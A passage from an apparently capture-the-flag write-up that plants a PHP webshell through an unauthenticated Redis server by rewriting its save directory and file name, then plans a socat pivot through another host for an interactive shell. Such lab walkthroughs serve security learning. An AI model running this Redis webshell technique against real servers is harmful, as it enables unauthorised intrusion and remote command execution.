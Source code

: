 ![1532623689773](https://0xdfimages.gitlab.io/img/1532623689773.png)

There’s other mess there, but the `id` command ran and returned results, which I marked in red.

`hostname` shows the host is named www:

![1532632149713](https://0xdfimages.gitlab.io/img/1532632149713.png)

#### Script Redis WebShell

The files in the web directory seem to be cleared out every 3 minutes (I’ll confirm this soon), so I have to work quick. I scripted the upload:

```

#!/bin/sh

redis-cli -h 127.0.0.1 flushall
cat redis.txt | redis-cli -h 127.0.0.1 -x set crackit
redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
redis-cli -h 127.0.0.1 config set dbfilename "df.php"
redis-cli -h 127.0.0.1 save

```

On running, it puts the cmd shell in place:

```

root@kali# ./upload_shell.sh
OK
OK
OK
OK
OK

```

### Interactive Shell

Now with command execution, I’ll get an interactive shell.

#### Connectivity - socat

It doesn’t look like I can connect all the back to kali from this host. `which ping` returns `/bin/ping`, but trying to `ping 10.10.14.14` doesn’t result in anything when watching in `tcpdump`. When I try to `ping 172.19.0.3` (nodered), I get results:

![1532632323890](https://0xdfimages.gitlab.io/img/1532632323890.png)

So I need to pivot through nodered. I’ll upload a static copy of socat to the box using the Node-Red flow for upload. Now I can use `socat` one of two ways:
1. Relay traffic through nodered back to kali
2. Catch the callback on nodered
